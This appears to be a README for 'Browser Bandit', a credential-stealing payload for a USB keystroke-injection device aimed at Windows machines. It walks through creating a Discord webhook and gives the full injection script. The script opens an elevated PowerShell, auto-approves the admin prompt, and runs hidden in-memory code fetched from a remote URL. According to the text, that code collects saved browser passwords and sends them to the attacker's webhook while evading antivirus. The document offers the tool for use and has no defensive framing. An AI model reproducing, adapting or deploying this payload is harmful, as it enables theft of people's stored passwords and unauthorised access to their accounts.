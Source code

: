 # **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store]([https://store-link-here](https://code-382.eu/index.php/product/signalstrike/)))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.

## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

![]([image-url](https://discordjs.guide/assets/creating-webhooks-1.afb4d719.png))



## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

```bash
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER


## 3. Upload Your Payload to SignalStrike

1. Plug in your SignalStrike device.
2. Connect to its WiFi network (**Default SSID: SignalStrike, Password: SignalStrike**).
3. Open a web browser and go to **192.168.4.1** to access the control panel.
4. Create a new payload and name it "Browser Bandit".
5. Paste your modified `Payload.txt` (with the webhook) into the text box provided.
6. Save the payload and execute it.
